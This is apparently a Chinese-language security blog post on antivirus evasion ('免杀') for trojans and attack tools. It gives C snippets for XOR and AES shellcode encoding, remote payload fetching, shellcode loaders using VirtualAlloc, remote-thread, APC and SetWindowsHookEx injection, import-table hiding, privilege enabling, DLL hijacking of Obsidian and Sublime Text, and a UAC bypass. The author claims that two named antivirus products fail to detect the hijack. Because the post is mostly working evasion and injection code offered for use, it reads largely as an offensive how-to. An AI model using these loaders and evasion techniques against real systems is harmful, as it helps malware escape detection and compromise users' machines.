



免杀杂谈

- - -

# 免杀杂谈

auth：cmrex

## 一.开始的话

​ 很多人其实并不知道如何去做免杀，免杀的目的并不是说一定要让所有杀毒软件都无法检测，其实只需要让目标机器无法检测就行了。那么免杀这是一个大类，如果直接去说，这其实是大而空的，那么具体免杀，我们需要去做些什么呢？我将会从下面几个方面来论述。（这些方面也是基本涵盖了常见的免杀需求）

### 从需求方面

1.  木马免杀
2.  权限维持免杀
3.  工具免杀
4.  其他免杀

### 从免杀阶段方面

1.  静态免杀
2.  动态免杀「  
    执行免杀  
    内存免杀  
    行为免杀  
    」  
    3.流量免杀

### 从payload加载方面

​ 技术方面这里就百花齐放了，各种花里胡哨的方法。无论是工具的免杀还是做木马的免杀，不过大部分也就是：

-   本体的免杀，一个可执行程序，直接进行运行。payload就直接在程序里写死了。
-   分离免杀，制作加载器等。通过加载器和载荷分开的方式。再次基础上是对各种载荷的操作等。
-   白加黑免杀。通过白程序+黑dll的加载方式。这种也应该算是分离免杀的一种吧。
-   dll相关：对于dll的操作，包括了各种dll的加载方式，远线程，全局钩子，hook，劫持。这部分可以继而研究到shellcode的远线程注入等。不过对于远线程注入的方式也可以做成分离免杀的形式。
-   webshell免杀：对于上传的webshell进行免杀，主要还是各种变形，加密，混淆。老生常谈，但也是很多在用。（在做其他免杀似乎也是）

### 从选择的语言方面

​ 语言的话，这里可以选择的语言非常多，可以选择语言本身的函数以及语言的特性，可以使用语言调用win api操作，可以使用我来随机举几个例子。常见的：

-   c/c++：这种语言做程序，速度快，文件小，可实现的功能很多。也是很普遍传统的一种语言。缺点是：一些功能需要自己实现，新手上手稍难（对比python这种）而这样也分为microsoft的和mingw的两种。
-   python：对新手友好，语法简单。但是程序编译成exe比较大，而且编译出来的有时候拿到目的机器上运行，会出现各种错误无法运行。
-   go：运行速度快，难度也比较简单，支持各种库。文件也不是很大。
-   java：这种很少用来做木马的。大多数还是做webshell的免杀，内存马注入此类的。虽然也可以做上线的马，但是还是需要环境。文件也相对较大。主要是webshell的免杀。
-   c#：这种语言也非常常见。而且在cs中可以使用execute-assembly直接加载使用。
-   php：这个也是webshell的免杀。可以配合安全狗，D盾等自己练习。  
    当然也会有人选用一些不是非常常见的语言：
-   rust
-   nimlang
-   ruby

### 总结

​ 虽然说这里看着技术很多，但是我们只是需要实现我们的目的。那么我在这里继续举例一下都是些什么。

**对于是否是分离payload，无非从代码层面就是多了一些payload的读取，本地读取，注册表写入读取，远程拉取等等，只是形式而已。**

**而对于payload，也就是攻击载荷相关的内容。也是采取了混淆，编码，变形等。**

## 二.载荷编码加密&对抗&功能

​ 那么对于payload我们一般就是采取加密，编码，混淆。无论什么语言。例如：xor，base家族，现代密码（aes，des，rsa。。），古典密码等等。这里举几个例子。

### 1.异或编码（c语言）

​ 这里是把shellcode进行xor编码，然后可以保存到文件中，也可以按照自己的方式操作。

```plain
unsigned char buf[] = "shellcode"
    int password = 1025;

    unsigned char enShellCode[50000];
    unsigned char deShellCode[50000];

    int nLen = sizeof(buf) - 1;

    printf("%d\n加密后:\n", nLen);
    for (int i = 0; i < nLen; i++)
    {
        enShellCode[i] = buf[i] ^ password;
        printf("\\x%x", enShellCode[i]);
    }

    FILE* fp;
    unsigned char buffer[1024];
    int bytesRead;

    fp = fopen("1.txt", "rb");
    if (fp == NULL) {
        printf("Failed to open file");
        exit(1);
    }

    bytesRead = fread(buffer, sizeof(unsigned char), sizeof(buffer), fp);
    if (bytesRead == 0) {
        printf("Failed to read file");
        exit(EXIT_FAILURE);
    }

    for (int i = 0; i < bytesRead; i++) {
        printf("\\x%x", buffer[i]);
    }
    printf("");

    fclose(fp);


    printf("\n解密后:\n");
    for (int i = 0; i < nLen; i++)
    {
        deShellCode[i] = enShellCode[i] ^ password;
        printf("\\x%x", deShellCode[i]);
    }
```

### 2.AES加密（c语言）

用到了openssl/aes.h文件。在vs中操作。

安装：

```plain
vcpkg integrate install
vcpkg install openssl:x86-windows
vcpkg install openssl:x64-windows
```

代码：

```plain
void aes_encrypt(const unsigned char *plaintext, int plaintext_len, const unsigned char *key, unsigned char *ciphertext) {
    AES_KEY aes_key;
    AES_set_encrypt_key(key, 128, &aes_key);//设置密钥
    int num_blocks = plaintext_len / BLOCK_SIZE + (plaintext_len % BLOCK_SIZE == 0 ? 0 : 1);//每16字节加密一次
    unsigned char block[BLOCK_SIZE];
    for (int i = 0; i < num_blocks; i++) {
        int j;
        for (j = 0; j < BLOCK_SIZE && i * BLOCK_SIZE + j < plaintext_len; j++) {
            block[j] = plaintext[i * BLOCK_SIZE + j];
        }
        for (; j < BLOCK_SIZE; j++) {
            block[j] = '\0';
        }
        AES_encrypt(block, &ciphertext[i * BLOCK_SIZE], &aes_key);
    }
}

void aes_decrypt(const unsigned char *ciphertext, int ciphertext_len, const unsigned char *key, unsigned char *plaintext) {
    AES_KEY aes_key;
    AES_set_decrypt_key(key, 128, &aes_key);
    int num_blocks = ciphertext_len / BLOCK_SIZE + (ciphertext_len % BLOCK_SIZE == 0 ? 0 : 1);
    unsigned char block[BLOCK_SIZE];
    for (int i = 0; i < num_blocks; i++) {
        AES_decrypt(&ciphertext[i * BLOCK_SIZE], block, &aes_key);
        int j;
        for (j = 0; j < BLOCK_SIZE && i * BLOCK_SIZE + j < ciphertext_len; j++) {
            plaintext[i * BLOCK_SIZE + j] = block[j];
        }
    }
}
```

一方面是加密，一方面是解密。

**这里展示了c的，语言表现形式很多，不同语言实现的方式不同，也不用纠结是什么语言的**

## 三.分离载荷

### 1.本地载荷读取（c语言）

#### 文件I/O

读取

```plain
char* buf = (char*)malloc(926 + 1);

HANDLE openinfile = CreateFileA("aaa.txt",GENERIC_READ,0,NULL,OPEN_EXISTING,FILE_ATTRIBUTE_NORMAL,NULL);

int size = GetFileSize(openinfile, NULL);

DWORD lpNumberOfBytesRead = 0;

BOOL rfile = ReadFile(openinfile, buf, size, &lpNumberOfBytesRead, NULL);
```

写入

```plain
HANDLE hFile = CreateFile(L"aaa.txt", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

DWORD lpNumberOFBytesWrite = 0;

BOOL wfile = WriteFile(hFile, buf, size, &lpNumberOFBytesWrite, NULL);
```

#### 输出

```plain
/*for (int i = 0; i < 926; i++)
    {
        printf("\\x%02x", (unsigned char)sc[i]);
    }*/
```

### 2.远程shellcode读取（c语言）

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122161437-4882a376-b8fe-1.png)

主要结构：

1.  解析路径，分析端口，资源文件，协议
2.  远程拉文件读取进内存中
3.  分配内存远程线程注入或者自己开个进程注入

#### http请求

```plain
WinHttpOpen
WinHttpOpenRequest
WinHttpSendRequest
WinHttpReceiveResponse
```

#### 读取远程的文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122161453-5227f822-b8fe-1.png)

我这里用递归读取  
而远程文件可以直接开个python的http服务

```plain
python3 -m http.server
```

#### 读取注册表

前提是得写入注册表^\_^

```plain
#include <stdio.h>
#include <windows.h>

int main() {
    HKEY hKey;
    char value[255];
    DWORD bufSize = sizeof(value);

    // 打开注册表项
    if (RegOpenKeyEx(HKEY_CURRENT_USER, "SOFTWARE\\Microsoft\\Windows\\CurrentVersion", 0, KEY_READ, &hKey) == ERROR_SUCCESS) {
        // 读取注册表值
        if (RegGetValue(hKey, NULL, "ProductName", RRF_RT_REG_SZ, NULL, value, &bufSize) == ERROR_SUCCESS) {
            printf("Product Name: %s\n", value);
        } else {
            printf("Failed to read registry value.\n");
        }

        // 关闭注册表项
        RegCloseKey(hKey);
    } else {
        printf("Failed to open registry key.\n");
    }

    return 0;
}
```

## 四.加载器入口点的写法

对于加载器的写法，无论别的是什么，也总得要有个入口点，也就是api，可以使用常见的api，可以使用自己找个少见的api。比如：VirtualAlloc，更底层是VirtualAllocEx。

### VirtualAlloc直接加载

一个最简单的直接加载payload，开辟内存空间运行，把载荷放进去。

```plain
#include <stdio.h>
#include <windows.h>
using namespace std;
int main()
{
    char shellcode[] = "把shellcode粘贴到这里";
    LPVOID lpAlloc = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(lpAlloc, shellcode, sizeof shellcode);
    ((void(*)())lpAlloc)();
    return 0;
}
```

### 创建线程运行

自己这个程序运行后，给自己开个线程运行

```plain
void* exec = VirtualAlloc(0, sizeof(buf), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, buf, sizeof(buf));
    CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec, 0, 0, 0);//创建线程运行shellcode
```

### 远程线程加载

把恶意的载荷加载去第三方的进程，这样应急排查的话，就会看见一个正常的进程。

```plain
打开一个要加载的远程线程：
targetProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetPID);

分配空间：
remoteBuffer = VirtualAllocEx(targetProcessHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

写入内存：
WriteProcessMemory(targetProcessHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
```

### apc注入

#### 介绍

APC（Asynchronous Procedure Call）注入是一种基于Windows操作系统的高级漏洞利用技术，通常用于绕过安全防护措施，执行恶意代码。其原理如下：

1.  APC注册：在目标进程中创建一个用户模式线程，并将其关联到一个合法的可执行函数或API回调函数。
    
2.  注入：攻击者将恶意代码加载到目标进程的虚拟地址空间中，通常使用远程线程注入、DLL注入等方法。
    
3.  触发APC：攻击者在目标进程的上下文中，使用QueueUserAPC函数将用户模式线程与恶意代码关联，将其添加到被攻击者的执行队列中。
    
4.  执行：当目标进程执行到特定的同步点时，即进入了ALERTABLE状态（如进入等待状态、等待用户输入等），执行队列中的用户模式线程得到执行并执行恶意代码。
    

APC注入利用了Windows操作系统的异步过程调用机制，通过向进程中注入线程，并在指定时机触发线程执行，从而实现执行恶意代码的目的。由于APC是在目标进程的上下文中执行，所以可以绕过一些安全防护措施，使恶意代码不易被检测和阻止。

需要注意的是，APC注入是一种高级的攻击技术，需要深入了解操作系统和漏洞利用原理才能正确实施。在合法场景下使用或研究APC注入，请确保符合法律规定，并遵循合规的安全测试流程。

#### 具体实现代码

既然是注入每一个线程，自然要有一个循环，循环每一个线程：

```plain
for (DWORD threadId : threadIds) {
        threadHandle = OpenThread(THREAD_ALL_ACCESS, TRUE, threadId);
        QueueUserAPC((PAPCFUNC)apcRoutine, threadHandle, NULL);
        Sleep(1000 * 2);
    }
```

其他的代码和别的加载方式并没太大差别。当然还有apc注入earlybird版本，建议自行研究了。

### HOOK键盘SetWindowHookEx代码注入

​ 这个就稍微有点难度了，但仔细研究并没多难。Windows允许程序使用`SetWindowHookEx`安装钩子来监控各种系统事件，如鼠标点击和键盘按键。

1.  一个载荷
2.  创建一个恶意程序
3.  解析地址，挂钩
4.  键盘输入内容，加载恶意载荷。

#### 代码

```plain
HMODULE library = LoadLibraryA("Dll1.dll");
    HOOKPROC hookProc = (HOOKPROC)GetProcAddress(library, "spotlessExport");

    HHOOK hook = SetWindowsHookEx(WH_KEYBOARD, hookProc, library, 0);
    Sleep(10 * 1000);
    UnhookWindowsHookEx(hook);
```

而在dll里：

```plain
extern "C" __declspec(dllexport) int spotlessExport() {
    unsigned char shellcode[] = "";

    void* exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, shellcode, sizeof shellcode);
    ((void(*)())exec)();
```

这样可以实现运行程序后，dll并不会立即加载。而是会在HOOK后执行。

### 总结

这些是不同形式的加载恶意载荷，根据我的朋友（一位研究apt样本）描述，在apt组织中，他们更常见采用的加载方式是：  
程序黑1调用黑2，黑2调用黑3。并且会去掉他们的pe头文件。总体也就是分段加密，分段解密，在不同的地方解密，不同的地方组装。类似于区块链的去中心化的组装模式，最后再运行。  
这样即使提取文件出来，也不会得到全部的数据，对于取证也是具有难度。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240122161511-5ca6bc66-b8fe-1.png)  
这样看上去，不是完整的pe，也不是完整的shellcode。  
而对于apt组织的白加黑样本（后续介绍白加黑），他们也经常是采用白程序加载一个可信任的dll（可能是已经签名了），然后这个黑dll再去加载一个自己黑dll，多来几层这种类。（比较类似于之前爆出来vmware的白程序被apt组织利用的样本。)

当然本篇文章，只是一个方向性质的总结文章。也是希望可以帮助到大多数师傅入门免杀的文章。这里就介绍一些简单的api了。

## 五.其他技术

### bypass 导入表

这种是动态导入表，但是只能在三环有点操作，但是在零环并没什么。

（三环内）

```plain
typedef LPVOID(WINAPI* ImportVirtualAlloc)(
    LPVOID lpAddress,
    SIZE_T dwSize,
    DWORD  flAllocationType,
    DWORD  flProtect
    );
```

然后利用GetProcAddress获得地址

```plain
ImportVirtualAlloc MyVirtualAlloc = (ImportVirtualAlloc)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "VirtualAlloc");
```

最后使用我们自定义的函数

### 获取进程令牌权限

病毒木马想要实现一些关键的系统操作时。

比如：通过调用ExitWindows函数实现关机或重启操作的时候就需要SE\_SHUTDOWN\_NAME权限

否则，会忽视操作不执行

**注意**

```plain
AdjustTokenPrivileges返回TRUE，并不代表特权设置成功，还需要使用GetLastError来判断错误码返回值。

　　若错误码返回值为ERROR_SUCCESS，则表示所有特权设置成功；若为ERROR_NOT_ALL_ASSIGNED，

　　则表示并不是所有特权都设置成功

　　换句话说，如果在程序中只提升了一个访问令牌特权，

　　且错误码为ERROR_NOT_ALL_ASSIGNED，则提升失败。如果程序运行在 Windows 7或者以上版本的操作系统，

　　可以尝试以管理员身份运行程序然后再测试
```

**代码：**

```plain
// 开启SeDebugPrivilege
    HANDLE hToken;
    TOKEN_PRIVILEGES TokenPrivileges;
    BOOL bResult;

    bResult = OpenProcessToken(GetCurrentProcess(), TOKEN_ALL_ACCESS, &hToken);
    if (!bResult)
    {
        _tprintf(_T("OpenProcessToken failed, error code: %d\n"), GetLastError());
        return 1;
    }

    bResult = LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &TokenPrivileges.Privileges[0].Luid);
    if (!bResult)
    {
        _tprintf(_T("LookupPrivilegeValue failed, error code: %d\n"), GetLastError());
        return 1;
    }

    TokenPrivileges.PrivilegeCount = 1;
    TokenPrivileges.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

    bResult = AdjustTokenPrivileges(hToken, FALSE, &TokenPrivileges, sizeof(TOKEN_PRIVILEGES), NULL, NULL);
    if (!bResult)
    {
        _tprintf(_T("AdjustTokenPrivileges failed, error code: %d\n"), GetLastError());
        return 1;
    }
```

### 判断当前权限

判断当前权限，可以手动做个提权的功能之类的，所以也就把这个加进来了。

```plain
#include <ShlObj.h>
#include <tchar.h>

int _tmain()
{
    BOOL bIsAdmin = IsUserAnAdmin();
    if (bIsAdmin)
        _tprintf_s(_T("Run As administrator"));
    else
        _tprintf_s(_T("Run As user"));
    system("pause");
    return 0;
}
```

### 反沙箱技术

注入此类的，通过读取注册表，判断cpu内存等，判断进程，延时执行等等。

## 六.白加黑技术

一个白程序加载一个黑dll叫做白加黑执行。  
这里的dll功能可以按照你的想法来编写。

白加黑，从dll的加载上我觉得分为两种：

-   加载不存在的dll
-   加载存在的dll

dll加载的顺序：

1.  EXE所在目录；
2.  当前目录GetCurrentDirectory()；
3.  系统目录GetSystemDirectory()；
4.  WINDOWS目录GetWindowsDirectory()；
5.  环境变量 PATH 所包含的目录。

### 1.加载不存在的dll

​ 然后这里找到一个需要用到loadlibrary这个api的dll，这里找有个api的原因是因为如果该dll的调用栈中存在有 loadlibrary(Ex) ,说明这个dll被进程所动态加载的。如果这种利用场景下，伪造的dll文件不需要存在任何导出函数即可被成功加载，即使加载后进程内部出错，也是在dll被加载成功加载之后的事情。  
​ loadlibrary和loadlibraryex是一个本地加载，一个是远程加载，如果dll不在调用的同一目录下，就可以使用loadlibrary(L"DLL绝对路径")加载。但是如果DLL内部又调用一个DLL，就需要使用loadlibraryex进行远程加载

#### Obsidian的dll劫持

1.找到dll

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122161553-76396430-b8fe-1.png)

2.编写dll放到和程序同目录

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122161612-8127c206-b8fe-1.png)

然后运行即可，会自动调用

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122161810-c7bfdfd2-b8fe-1.png)

360核晶无感，火绒无感。

#### sublime的dll劫持

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122161750-bbf23042-b8fe-1.png)

代码：  
这里就不给出代码了，功能也好，入口点加载也好，上文已经给出了。

### 2.加载存在的dll

1.找到目标进程加载了哪些dll

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122161908-ea63c7c4-b8fe-1.png)

2.找一个dll

假设我们选取amsi.dll

我们看到这个导入目录中存在LoadLibraryExW

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122161928-f5fd3890-b8fe-1.png)

然后再去找到它的函数有什么，下一次尝试写入。这里的函数都可以使用。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122161942-feaa15d0-b8fe-1.png)

### 3.测试效果

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122161840-d951410a-b8fe-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122161722-ab0e23a8-b8fe-1.png)

## 七.工具的免杀

之前想到了一个突发奇想，想到了可以把可执行文件转换成shellcode，然后老样子成为载荷加载。刚开始试验起来，效果也还不错。这种也没什么困难的，也算是另一种变相的加载了。而且近半年也能看见很多github和公众号出现了这种免杀方法，研究免杀的师傅也是越来越多了。

其他的对于工具的免杀，核心点也是混淆，编码等。但是对于fscan或者frp这种项目，也是主要动态行为免杀了。比如frp，需要去修改流量特征，参数等运行的需要修改。

至于其他的功能，提权，权限维持，如何去做的免杀也就是这些了。

## 八.马子其他功能

马子架构

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122161630-8c384e4a-b8fe-1.png)  
这里就是比较偏向于娱乐功能了，设计了一个马子的架构，可以直接提权上线，但是实际上，也就娱乐了。

### bypass UAC

#### COM组建ICMLuaUtil接口

​ 通过**允许**的的应用程序提升权限激活COM类，然后使用ICMLuaUtil的ShellExec来创建进程。

​ 允许的进程是：记事本，计算器，资源管理器，rundll32.exe等，这里直接利用rundll32.exe加载dll，用一个管理员权限启动恶意程序。  
这里我就随便举了个小例子 bypass uac了。

## 九.其他

-   不同的语言编译有不同的编译参数命令，需要注意，他们也对免杀有不同的效果。
-   可以去了解一下主要的杀毒软件规则是什么，不要直接去做免杀，先去看看规则。自己做的程序也不要直接发到vt......。本机测试记得断网......

关于免杀大概就说到这里吧，看了很多的免杀思路，主要还是分离免杀吧，去做加载器，再加上点编码混淆，就拿来用了。其实这样也没什么问题，但是依旧应该去研究一下更少见的内容，最好是自己分析，调试一下，而不是直接下载项目，自己编译运行，报错了也不知道为什么会报错。希望和各位安全师傅共勉，共同进步。  
参考文件：

```plain
https://mp.weixin.qq.com/s/ADxchJEJZmcvl2EszukYMw
https://www.cnblogs.com/-qing-/p/12234148.html#_label0
https://xz.aliyun.com/t/12376
https://xz.aliyun.com/t/11711
https://blog.csdn.net/qq_46804551/article/details/124546603
```

归档.zip (2.291 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20240122161358-311c7da6-b8fe-1.zip)
